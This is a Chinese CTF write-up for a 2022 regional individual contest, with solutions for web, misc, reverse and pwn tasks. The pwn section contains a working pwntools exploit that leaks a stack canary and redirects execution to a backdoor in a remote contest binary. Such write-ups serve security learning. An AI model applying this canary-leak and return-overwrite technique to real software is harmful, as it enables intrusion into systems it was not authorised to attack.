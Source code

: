```yaml
---
title: 2022川渝个人赛-wp
categories: [CTF]
tags: [wp,pwn,re]

---
```

这个比赛简单，但是好久没有打ctf,感觉自己变废了<!--more-->
##  解题情况

![微信截图_20220914163354](微信截图_20220914163354.png)

## 解题过程

### Web

#### 1-1 目录扫描

按照经验，猜测robots.txt文件。读取后发现提示`'/Sec3et_in_h3r3/fl6g`

![0f71dfc995cba4c7e397f8863a1d069](川渝个人赛-wp.assets/0f71dfc995cba4c7e397f8863a1d069.jpg)

读取后发现flag。



### MISC

#### 2-3 0101

打开文本发现16进制数，用winhex写入，然后根据附件开头`50 4B 03 04 14 00 00 00 00 00` 判断文件为zip,且文件头损坏而打不开，因此修改`为50 4B 03 04 14 00 00 00 08 00`.在打开压缩包解压。发现一组黑白图片。编写脚本将黑色图片识别为1，将白色图片识别为0，将得到的二进制数转为字符从而得到flag

![image-20220914164829072](image-20220914164829072.png)



识别脚本如下：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   1.py
@Time    :   2022/09/14 14:29:19
@Author  :   lexsd6
'''
from PIL import Image

result= ""
for i in range(304):
    img = Image.open(f"{i}.png")
    im_RGB = img.convert("RGB") # 将图片转换为RGB模式
    r,g,b =im_RGB.getpixel((1,1)) #获得rgb值
    print(r,g,b)# 白色rgb值:(255,255,255)
    if r !=255: #255是白色
        result +="1"
    else:
        result +="0"

#将二进制转换为ascii码
for i in range(0,len(result),8):
    byte = result[i:i+8]
    print(chr(int(byte,2)),end="")
```





### REVERSE

#### 4-1 simple dispy 

跟着文档手搓python字节码。大致还原python 源代码为：

```python
arr=[47378,29475,46200,39869,67243,68695,73129,27171,53832,30653,60541,67276,58816,63571,50131,34471,67922,82293,33259,67538,57810,50339,34632,68754,83192,36077,60424,54547,56308,33565,69425,84024]

k=22643


flag=input()


for i in range(32):
    num=ord(flag[i])*255+k
    if(num!=arr[i]):
        print("Error")
        exit(0)
    print(i)
    k=(k+arr[i])&65535

print("Right,the flag is DASCTF{Input}")
```



从而逆向写出脚本：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   t.py
@Time    :   2022/09/14 13:26:54
@Author  :   lexsd6
'''


arr=[47378,29475,46200,39869,67243,68695,73129,27171,53832,30653,60541,67276,58816,63571,50131,34471,67922,82293,33259,67538,57810,50339,34632,68754,83192,36077,60424,54547,56308,33565,69425,84024]

k=22643

"""
flag=input()


for i in range(32):
    num=ord(flag[i])*255+k
    if(num!=arr[i]):
        print("Error")
        exit(0)
    print(i)
    k=(k+arr[i])&65535

print("Right,the flag is DASCTF{Input}")

"""

flag=""
for i in range(32):
 flag+=chr(int((arr[i]-k)/255))
 k=(k+arr[i])%65536
print(flag)

```



### PWN

#### 5-1 ez_canary

```
[*] '/home/lexs/Desktop/pwntest/2022/cy/ez_canary/ez_canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

题目开了canary 和 nx，但是没开PIE.

但是通过逆向源代码和动态gdb，可以得知我们的输入的` Username`可以溢出到栈上，我们输入的password 可以覆盖 ` Username`的同时溢出到栈上。因此，我们合理布局code让` Username` 刚好把canary低位的'\x00'覆盖，从而泄露出canary。由于PIE未开，我们可以源文件后门，从而在Password 输入合理布局覆盖` Username`和canary，让程序流跳到我们后门上。（远程不知道为啥打不通，后赖用 ret 调节下栈 ）

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2022/09/14 10:21:45
@Author  :   lexsd6
'''

from pwn import * 
#from libcfind import *


""" 
0x000000000040142c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040142e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401430 : pop r14 ; pop r15 ; ret
0x0000000000401432 : pop r15 ; ret
0x000000000040142b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040142f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004011fd : pop rbp ; ret
0x0000000000401433 : pop rdi ; ret
0x0000000000401431 : pop rsi ; pop r15 ; ret
0x000000000040142d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
"""
local_mote=0
elf='./ez_canary'
e=ELF(elf)
context.arch=e.arch
context.log_level = 'debug'
ip_port=['43.143.139.234',50305]

debug=lambda gdb_cmd='': gdb.attach(p,gdb_cmd) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])


debug()
p.sendline('x'*0xa)
p.recvline()
cananry=(u64(p.recv(7)+'\x00'))*0x100
cd=(u64(p.recv(6)+'\x00'*2))*0x100
log.info(hex(cananry))
log.info(hex(cd))
#print(p.recvuntil('!Password:'))
sleep(0.1)
ret=0x000000000040101a
back=0x000000000401216
p.sendline('k'*(0x10+4)+p64(cananry)+p64(ret)*2+p64(back)*2)
p.interactive()
```

